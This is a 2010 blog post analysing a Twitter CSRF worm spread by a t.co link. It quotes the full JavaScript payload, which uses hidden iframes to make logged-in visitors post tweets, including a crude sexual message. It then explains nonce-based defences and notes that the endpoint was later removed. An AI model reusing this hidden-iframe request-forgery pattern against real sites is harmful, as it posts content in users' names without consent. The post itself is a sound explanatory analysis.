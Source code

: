 ```yaml
---
author: admin
comments: true
date: 2010-09-26 18:39:12+00:00
layout: post
slug: csrf-matters-or-why-twitter-users-dont-actually-love-anal-sex-with-goats
title: 'CSRF Matters (Or: Why Twitter Users Don''t Actually Love Anal Sex With Goats)'
wordpress\_id: 1358
tags:
- csrf
- twitter
---
```


**Update:** Twitter has disabled this vector by removing the /share/update method to automatically tweet a status.  This will prevent future attacks of this type.[^1]

A new "worm" is making the rounds on Twitter this morning, driven by a t.co link.  At first glance this might seem to be a flaw similar to the one from just a few days ago, but it's not.  Let's take a look at the payload.


```javascript
var el1 = document.createElement('iframe');
var el2 = document.createElement('iframe');
el1.style.visibility="hidden";
el2.style.visibility="hidden";
el1.src = "http://twitter.com/share/update?status=WTF:%20" + window.location;
el2.src = "http://twitter.com/share/update?status=i%20love%20anal%20sex%20with%20goats";
document.getElementsByTagName("body")[0].appendChild(el1);
document.getElementsByTagName("body")[0].appendChild(el2);
```


Amazingly simple right?  All the page does is create two hidden iframes, set their src to be a URL that will tweet those two updates, then appends them to the body of the page.  From the user's perspective all that happens is a blank page when they click the link, but in reality it has just sent a copy of its own URL + "i love anal sex with goats" back to Twitter.  This will only work if you're currently logged in, but that's not much of an obstacle.

So how do you stop cross site request forgery (CSRF) requests like this?  One way is to generate a nonce for requests and require it to be sent along when triggering an update.[^2]  That would have stopped this worm in its tracks, but at the expense of disabling easy updates to Twitter from other websites.

Given the rapid rise of Twitter and people's increasing reliance on the sanctity of their timelines this type of attack will almost certainly become more common until Twitter chooses to change their rules.  As always, the tradeoff of convenience and security is a tough decision.

[^1]: Other potential vectors like /home?status require user interaction, so alternate methods will have to be developed by worm authors.
[^2]: [OWASP](http://www.owasp.org/index.php/Main_Page) has more information and reference implementations to protect against CSRF, XSS, and more
